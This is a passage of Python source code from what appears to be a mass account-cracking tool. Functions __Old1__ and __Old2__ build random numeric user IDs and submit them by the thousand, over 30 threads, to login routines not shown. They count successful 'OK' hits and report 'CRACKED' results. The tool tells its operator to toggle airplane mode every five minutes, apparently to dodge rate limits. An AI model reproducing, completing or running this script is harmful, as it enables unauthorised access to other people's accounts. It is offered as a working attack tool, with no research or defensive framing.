         print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mUSED AIRPLANE MODE AFTER 5 MINUTE ')
        linex()
        for mal in user:
        	uid=year_code+mal
        	jihad.submit(login1,uid)
        
def __Old1__():
    user=[]
    clear()
    print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mEXAMPLE \33[38;5;160m  ▶ \033[1;97m10000\33[38;5;37m|\033[1;97m20000\33[38;5;37m|\033[1;97m30000\33[38;5;37m|\033[1;97m40000')
    linex()
    limit=input(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mSELECTION \33[38;5;160m▶ \033[1;97m')
    linex()
    year_code = '10000'
    for i in range(int(limit)):
    	data=str(random.choice(range(1000000000,1999999999)));user.append(data)
    with tred(max_workers=30) as jihad:
        clear()
        print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mTOTAL ID \33[38;5;160m▶ \033[1;97m{limit}')
        print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mUSED AIRPLANE MODE AFTER 5 MINUTE ')
        linex()
        for mal in user:
            uid=year_code+mal
            jihad.submit(login2,uid)
    line();print(f'\r\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mYOUR CRACKED HAS BEEN COMPLETED...\33[38;5;160m!');linex();print(f'\r\r\r\r\33[38;5;160m[\033[1;97mᯤ\33[38;5;160m] \033[1;97mTOTAL OK \33[38;5;160m▶ \x1b[38;5;46m{len(oks)}');linex();input(f'\33[38;5;160m[\033[1;97mᯤ\33[38;5;160m] \033[1;97mINTER TO BACK RAN AGAIN...\33[38;5;160m!\033[1;37m');main()

def __Old2__():
    user=[]
    clear()
    print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mEXAMPLE \33[38;5;160m  ▶ \033[1;97m10000\33[38;5;37m|\033[1;97m20000\33[38;5;37m|\033[1;97m30000\33[38;5;37m|\033[1;97m40000')
    linex()
    limit=input(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mSELECTION \33[38;5;160m▶ \033[1;97m')
    linex()
    year_code = '10000'
    for i in range(int(limit)):
    	data=str(random.choice(range(1000000000,1999999999)));user.append(data)
    with tred(max_workers=30) as jihad:
        clear()
        print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mTOTAL ID \33[38;5;160m▶ \033[1;97m{limit}')
        print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mUSED AIRPLANE MODE AFTER 5 MINUTE ')
        linex()
        for mal in user:
            uid=year_code+mal
            jihad.submit(login3,uid)
    line();print(f'\r\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mYOUR CRACKED HAS BEEN COMPLETED...\33[38;5;160m!');linex();print(f'\r\r\r\r\33[38;5;160m[\033[1;97mᯤ\33[38;5;160m] \033[1;97mTOTAL OK \33[38;5;160m▶ \x1b[38;5;46m{len(oks)}');linex();input(f'\33[38;5;160m[\033[1;97mᯤ\33[38;5;160m] \033[1;97mINTER TO BACK RAN AGAIN...\33[38;5;160m!\033[1;37m');main()

